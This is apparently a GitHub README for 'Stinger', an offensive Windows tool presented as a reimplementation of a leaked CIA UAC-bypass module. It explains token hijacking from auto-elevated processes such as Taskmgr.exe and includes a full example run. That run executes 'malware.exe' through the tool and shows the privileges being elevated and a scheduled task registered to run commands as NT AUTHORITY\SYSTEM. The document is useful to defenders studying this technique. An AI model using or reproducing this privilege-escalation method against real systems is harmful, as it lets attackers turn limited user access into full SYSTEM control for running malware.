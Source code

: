 ﻿# Stinger

CIA Vault7 leak describes Stinger[0] as a Privilege Escalation module in the "Fine Dining" toolset. Stinger
is a "UAC bypass that obtains the token from an auto-elevated process, modifies it, and reuses it to 
execute as administrator". This is an implementation of Stinger, including debugging routines and some
additional tradecraft to obtain `NT AUTHORITY\\SYSTEM` rights. The exploit works on Windows 7 through Windows 
10 to run privileged code through token hijacking of an autoelevated process (e.g. `Taskmgr.exe`) from 
a UAC restricted process. This technique to steal a privileged token and elevate a thread also works on 
Windows 11, however it is not possible to use it for CreateProcessWithLogonW which detects `BAD IMPERSONATION` 
or with CreateFile, Registry, Process, COM ITask*, Named Pipes etc as the operations fail with `ACESS_DENIED` 
or `E_BAD_IMPERSONATION`. This exploit closely resembles UAC Magic[1] and thus it is believed that Stinger is 
an implementation of UAC Magic based on the description and time which it was used within the CIA for modular 
malware in "Fine Dining". This is a tokenhijacking attack that bypasses UAC on Windows 7 -> Windows 10, and on 
Windows 11 gives only an elevated thread to further experiment with. This exploit leverages a COM object 
ITaskService from the privileged thread to run commands under `NT AUTHORITY\SYSTEM`. 

Here is an example of the UAC bypass being used on a vulnerable Windows 7 host. 

``` 
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\TestUser\Downloads>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled

C:\Users\TestUser\Downloads>Stinger.exe taskmgr.exe cmd.exe /c c:\\Temp\\malware.exe
Show our process security context...
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: TESTPC\TestUser
SID: S-1-5-21-3089230831-4110903467-601958294-1001
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is not elevated.
Token is not restricted
Dumping token privileges...
[-] Disabled Privilege: SeShutdownPrivilege Attributes : 0
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[-] Disabled Privilege: SeUndockPrivilege Attributes : 0
[-] Disabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 0
[-] Disabled Privilege: SeTimeZonePrivilege Attributes : 0
Process ID: 3992
Successfully duplicated token
H4x0r1nG the token ...
Enabling privilege: SeIncreaseQuotaPrivilege
Enabling privilege: SeSecurityPrivilege
Enabling privilege: SeTakeOwnershipPrivilege
Enabling privilege: SeLoadDriverPrivilege
Enabling privilege: SeSystemProfilePrivilege
Enabling privilege: SeSystemtimePrivilege
Enabling privilege: SeProfileSingleProcessPrivilege
Enabling privilege: SeIncreaseBasePriorityPrivilege
Enabling privilege: SeCreatePagefilePrivilege
Enabling privilege: SeBackupPrivilege
Enabling privilege: SeRestorePrivilege
Enabling privilege: SeShutdownPrivilege
Enabling privilege: SeDebugPrivilege
Enabling privilege: SeSystemEnvironmentPrivilege
Enabling privilege: SeChangeNotifyPrivilege
Enabling privilege: SeRemoteShutdownPrivilege
Enabling privilege: SeUndockPrivilege
Enabling privilege: SeManageVolumePrivilege
Enabling privilege: SeImpersonatePrivilege
Enabling privilege: SeCreateGlobalPrivilege
Enabling privilege: SeIncreaseWorkingSetPrivilege
Enabling privilege: SeTimeZonePrivilege
Enabling privilege: SeCreateSymbolicLinkPrivilege
Dropping IL...
Initialized medium IL SID
Token lowered to medium integrity
COM init...
Attemping to bypass UAC with the token...
ImpersonateLoggedOnUser succeeded..
User: TestUser
Domain: TESTPC
User SID: S-1-5-21-3089230831-4110903467-601958294-1001
Checking token DACL...
Allowed ACE: GENERIC_ALL
Account: BUILTIN\Administrators
SID: S-1-5-32-544
Allowed ACE: GENERIC_ALL
Account: NT AUTHORITY\SYSTEM
SID: S-1-5-18
Allowed ACE: GENERIC_READ GENERIC_EXECUTE
LookupAccountSid failed: 1332
SID: S-1-5-5-0-107317
Token is elevated!
Token is not restricted
Dumping token privileges...
[+] Enabled Privilege: SeIncreaseQuotaPrivilege Attributes : 2
[+] Enabled Privilege: SeSecurityPrivilege Attributes : 2
[-] Disabled Privilege: SeTakeOwnershipPrivilege Attributes : 0
[-] Disabled Privilege: SeLoadDriverPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemProfilePrivilege Attributes : 2
[+] Enabled Privilege: SeSystemtimePrivilege Attributes : 2
[+] Enabled Privilege: SeProfileSingleProcessPrivilege Attributes : 2
[+] Enabled Privilege: SeIncreaseBasePriorityPrivilege Attributes : 2
[+] Enabled Privilege: SeCreatePagefilePrivilege Attributes : 2
[-] Disabled Privilege: SeBackupPrivilege Attributes : 0
[-] Disabled Privilege: SeRestorePrivilege Attributes : 0
[+] Enabled Privilege: SeShutdownPrivilege Attributes : 2
[-] Disabled Privilege: SeDebugPrivilege Attributes : 0
[+] Enabled Privilege: SeSystemEnvironmentPrivilege Attributes : 2
[+] Enabled Privilege: SeChangeNotifyPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeRemoteShutdownPrivilege Attributes : 2
[+] Enabled Privilege: SeUndockPrivilege Attributes : 2
[+] Enabled Privilege: SeManageVolumePrivilege Attributes : 2
[-] Disabled Privilege: SeImpersonatePrivilege Attributes : 0
[+] Enabled Privilege: SeCreateGlobalPrivilege Attributes : 3
    This privilege is enabled by default.
[+] Enabled Privilege: SeIncreaseWorkingSetPrivilege Attributes : 2
[+] Enabled Privilege: SeTimeZonePrivilege Attributes : 2
[+] Enabled Privilege: SeCreateSymbolicLinkPrivilege Attributes : 2
Attemping to run command as NT AUTHORITY\SYSTEM via COM...
Created ITaskService..
Connected to ITaskService..
Registering the evil Task..
Task created successfully.
Executed command as NT AUTHORITY\SYSTEM... wait for cleanup
Task deleted successfully. 
```

Your commands have executed under `NT AUTHORITY\SYSTEM`. Happy New Year!

## References

* [0]: [Fine Dining Tool Module List, Vault 7, Wikileaks](https://wikileaks.org/ciav7p1/cms/page_20251107.html).
* [1]: [Reading your way around UAC, James Forshaw](https://www.tiraniddo.dev/2017/05/reading-your-way-around-uac-part-1.html).

## License

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.
